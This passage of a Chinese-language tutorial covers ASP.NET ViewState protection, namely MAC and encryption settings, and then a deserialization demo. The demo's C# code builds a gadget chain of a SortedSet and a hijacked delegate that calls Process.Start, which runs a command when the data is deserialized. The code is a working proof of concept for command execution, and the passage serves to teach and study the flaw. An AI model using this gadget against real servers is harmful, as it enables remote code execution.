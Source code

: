 Web.config 文件中的 `<page enableViewStateMac="true" />` 。多种散列算法可以被选择，以便在 ViewState 中启用 MAC（消息身份验证代码）。

ASP.Net 还提供通过设置值加密 ViewState 的选项。

在 web.config 文件中的 `<page ViewStateEncryptionMode=”Always”/>`。

您可以在 ViewState 中选择使用不同的加密 / 验证算法。

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJCK0mMic5iccbEJWPb0J0UzNDHQO7vqSz0GxlWJzc171XIpvvFVw4pBcQ/640?wx_fmt=png)

用于设置加密和验证算法的 IIS 管理器配置

借助一个示例，让我们看看序列化和反序列化在 .NET 中是如何生效的（类似于 ViewState 的工作原理）。

在这里，我们创建了一个单页网页的应用程序，该应用程序将简单地接受用户在文本区域的输入，单击按钮后将其显示在同一页面上。

我们编写了一个示例代码，让应用程序在加载时使用 LOSFormatter 创建序列化输入。这个序列化数据将被保存到文件中。当在应用程序中单击 _GO_ 按钮时，将从文件中读取这些数据，然后在 ObjectStateFormatter 的帮助下进行反序列化。

前端代码：Test.aspx

```
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="TestComment.aspx.cs" Inherits="TestComment" %><!DOCTYPE html><html xmlns="http://www.w3.org/1999/xhtml"> <head runat="server">  <title></title> </head> <body>  <form id="form1" runat="server">   <asp:TextBox id="TextArea1" TextMode="multiline" Columns="50" Rows="5" runat="server" />   <asp:Button ID="Button1" runat="server" OnClick="Button1_Click" Text="GO" />   <br />   <br />   <br />   <asp:Label ID="Label1" runat="server"></asp:Label>  </form> </body></html>
```

后端代码：Test.aspx.cs

```
using System;using System.Collections.Generic;using System.Configuration;using System.Diagnostics;using System.IO;using System.Linq;using System.Reflection;using System.Web;using System.Web.UI;using System.Web.UI.WebControls;public partial class TestComment : System.Web.UI.Page{ protected void Page_Load(object sender, EventArgs e) {  String cmd = “echo 123 > c:\\windows\\temp\\test.txt”;  Delegate da = new Comparison<string>(String.Compare);  Comparison<string> d = (Comparison<string>)MulticastDelegate.Combine(da, da);  IComparer<string> comp = Comparer<string>.Create(d);  SortedSet<string> set = new SortedSet<string>(comp);  set.Add(“cmd”);  set.Add(“/c “ + cmd);  FieldInfo fi = typeof(MulticastDelegate).GetField(“_invocationList”, BindingFlags.NonPublic | BindingFlags.Instance);  object[] invoke_list = d.GetInvocationList();  // Modify the invocation list to add Process::Start(string, string)  invoke_list[1] = new Func<string, string, Process>(Process.Start);  fi.SetValue(d, invoke_list);  MemoryStream stream = new MemoryStream();  Stream stream1 = new FileStream(“C:\\Windows\\Temp\\serialnet.txt”, FileMode.Create, FileAccess.Write);  //Serialization using LOSFormatter starts here  //The serialized output is base64 encoded which cannot be directly fed to ObjectStateFormatter for deserialization hence requires base64 decoding before deserialization   LosFormatter los = new LosFormatter();  los.Serialize(stream1, set);  stream1.Close(); } protected void Button1_Click(object sender, EventArgs e) {  string serialized_data = File.ReadAllText(@”C:\Windows\Temp\serialnet.txt”);  //Base64 decode the serialized data before deserialization  byte[] bytes = Convert.FromBase64String(serialized_data);  //Deserialization using ObjectStateFormatter starts here  ObjectStateFormatter osf = new ObjectStateFormatter();  string test = osf.Deserialize(Convert.ToBase64String(bytes)).ToString(); }}
```

现在，让我们看看代码在运行时的执行了什么。网页加载后，代码立即执行，并在 “C:\Windows\temp” 文件夹中创建一个名为 serialnet.txt 的文件，其中包含序列化数据，它执行以下代码中突出显示的操作：：
